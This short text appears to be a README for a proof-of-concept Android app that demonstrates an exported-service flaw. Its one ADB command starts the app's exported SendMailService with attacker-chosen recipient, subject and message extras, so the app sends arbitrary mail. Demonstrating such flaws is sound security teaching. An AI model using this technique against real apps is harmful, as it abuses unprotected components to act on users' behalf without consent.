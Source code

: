 # Exported Service

- Install on Android device/emulator
- Exploit:
  - ADB command: ```./adb shell am startservice -n "com.poc.exported_service/com.poc.exported_service.SendMailService" --es gmail "your-gmail" --es subject "subject.for.mail" --es content "message.to.send"```
  - Check mail
